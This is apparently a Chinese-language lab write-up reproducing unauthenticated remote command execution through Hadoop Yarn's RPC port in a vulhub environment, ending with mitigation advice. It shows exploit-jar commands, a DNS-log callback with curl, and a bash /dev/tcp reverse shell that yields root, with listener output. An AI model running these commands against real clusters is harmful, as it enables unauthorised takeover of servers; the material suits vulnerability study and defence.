



# Hadoop Yarn RPC未授权访问漏洞

## 漏洞简述

Hadoop Yarn作为Hadoop核心组件之一，负责将资源分配至各个集群中运行各种应用程序，并调度不同集群节点上的任务执行。Hadoop Yarn默认对外开放RPC服务，攻击者可利用RPC服务执行任意命令，控制服务器。

同时由于Hadoop Yarn RPC服务访问控制机制开启方式与REST API不一样，因此即使在 REST API有授权认证的情况下，RPC服务所在端口仍然可以未授权访问。

## 环境搭建

> https://github.com/vulhub/vulhub/tree/master/hadoop/unauthorized-yarn

需要修改docker-compose.yml，添加8032端口映射。



curl请求8032端口。

```
[root@localhost tmp]# curl http://192.168.32.183:8032
It looks like you are making an HTTP request to a Hadoop IPC port. This is not the correct port for the web interface on this daemon.
```


## 漏洞利用

EXP：https://github.com/cckuailong/YarnRpcRCE

```
[root@localhost YarnRpcRCE-master]# java -jar YarnRpcUnauth.jar 192.168.32.183:8032 "curl 0dccw6.dnslog.cn"
log4j:WARN No appenders could be found for logger (org.apache.hadoop.util.Shell).
log4j:WARN Please initialize the log4j system properly.
log4j:WARN See http://logging.apache.org/log4j/1.2/faq.html#noconfig for more info.
```



查看日志



反弹shell

```
[root@localhost YarnRpcRCE-master]# java -jar YarnRpcUnauth.jar 192.168.32.183:8032 "bash -i >& /dev/tcp/192.168.32.183/9999 0>&1"
```

成功建立连接

```
[root@localhost tmp]# nc -lvp 9999
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 172.19.0.5.
Ncat: Connection from 172.19.0.5:59812.
bash: cannot set terminal process group (271): Inappropriate ioctl for device
bash: no job control in this shell
<00863_0003/container_1658816800863_0003_01_000001# whoami
whoami
root
<00863_0003/container_1658816800863_0003_01_000001# 
```


## 漏洞修复

1. Apache Hadoop官方建议用户开启Kerberos认证。
2. 设置 Hadoop RPC服务所在端口仅对可信地址开放。
3. 建议升级并启用Kerberos的认证功能，阻止未经授权的访问。


